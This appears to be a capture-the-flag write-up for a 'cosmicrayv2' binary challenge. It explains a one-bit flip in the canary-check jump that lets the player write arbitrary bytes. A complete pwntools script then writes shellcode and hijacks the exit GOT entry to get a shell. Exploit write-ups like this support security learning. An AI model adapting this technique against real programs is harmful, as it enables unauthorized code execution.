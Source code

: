 We are given a binary:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/718d58f0-271a-4280-ad6f-8fa6526d6ccb)

We are allowed to change exactly one bit in the binary:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ba58e500-4e30-4462-8436-5407012a30d1)

Let's open the binary in ghidra and see if there is any place of interest in which we might want to change a bit.
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/4094b4e5-8e26-4d38-bdb9-0f0b8ed33362)

We can see that because the binary has a canary, there is a conditional jump that checks for buffer overflows.   
In the opcode the `05` stands for how many bytes forward to jump. Also note, that not too far below is the main function.  
It is possible then to flip a bit on this conditional jump, to jump back to the main function and allow us to change as many bytes as we want.

Now that we have arbitrary write access, we can just write shellcode to wherever in the program, and then jump to our shellcode.

Solve Script:
```python3
#!/usr/bin/env python2

import os
import re
import sys

from pwn import *
import warnings
warnings.filterwarnings('ignore', category=BytesWarning)


def zerobyte(p, addr):
    # obtain current bits
    p.sendline(hex(addr))
    p.recvuntil('----\n')
    line = p.recvline(keepends = False)
    print(line)
    bits = line.split(b'|')[1:-1]
    log.info(f"Emptying {hex(addr)}.\n Current state: {bits}\n")
    p.sendline('1')
    p.recvuntil("flip:")
    # now flip all 1 bits
    for i in range(8):
        bit = bits[i]
        if bit == b'1':
            p.recvuntil("through:")
            p.sendline(hex(addr))
            p.recvuntil("flip:")
            p.sendline(str(i))
    # correct the one we messed with while getting the initial state
    p.recvuntil("through:")
    p.sendline(hex(addr))
    p.recvuntil("flip:")
    p.sendline('1')        
    log.success("Zeroed Byte!\n")
def writebyte(p,addr,value):
    
    log.info(f"Writing {value} to {addr}\n")
    for i in range(8):
        if value & (1 << i) != 0:
            p.sendlineafter("through:", hex(addr))
            p.sendlineafter('flip:', str(7-i))

elf = ELF("./cosmicrayv2_patched")
libc = ELF("./libc-2.35.so")
context.binary = elf
context.arch = 'amd64'
context.bits = 64

p = process('./cosmicrayv2_patched')

# step 1: Change JZ such that we can modify any amount of bits that we want
jz = '0x4015e2'
p.recvuntil("through:")
p.sendline(jz)
p.recvuntil("flip:")
p.sendline(b'4')

# start writing shellcode at 0x004011f0
shellcode_addr = 0x4011f0
shellcode = asm(shellcraft.amd64.linux.sh())
for i in range(len(shellcode)):
    zerobyte(p,shellcode_addr+i)
    writebyte(p,shellcode_addr+i,shellcode[i])

# write address of shellcode to exit_got
exit_got = elf.got["exit"]

shellcode_bytes = bytearray(p64(shellcode_addr))
log.info(f"Zeroing exit_got")
for i in range(8):
    zerobyte(p,exit_got+i)
log.info(f"Writing address of shellcode to exit_got")
for i in range(len(shellcode_bytes)):
    writebyte(p, exit_got+i, shellcode_bytes[i])

#execute exit
p.sendlineafter('through:', "P"*20)
p.sendlineafter('flip:','9')
p.interactive()
```
